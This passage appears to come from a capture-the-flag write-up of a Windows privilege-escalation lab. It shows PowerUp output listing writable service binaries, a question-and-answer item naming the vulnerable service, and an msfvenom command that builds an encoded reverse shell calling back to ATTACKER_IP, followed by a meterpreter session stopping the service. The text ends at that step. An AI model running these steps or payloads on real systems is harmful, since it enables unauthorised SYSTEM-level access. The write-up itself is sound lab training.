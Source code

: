 ```shell-session
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

ServiceName                     : IObitUnSvr
Path                            : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'IObitUnSvr'
CanRestart                      : False
Name                            : IObitUnSvr
Check                           : Modifiable Service Files

ServiceName                     : LiveUpdateSvc
Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files
```

The `CanRestart` option is set to true for the `AdvancedSystemCareService9` service. Moreover, the service has a `unquoted service path` vulnerability. 

> Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
>
> Answer: `AdvancedSystemCareService9`

The `CanRestart` option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program.

We can generate a reverse shell payload using `msfvenom` and upload it to the server.

***NOTE***: Press `Ctrl+C` to terminate the loaded powershell session and get back to the meterpreter session. 

```shell-session
$ msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe

# In the meterpreter session:
meterpreter > shell
Process 100 created.
Channel 9 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\Desktop> sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
```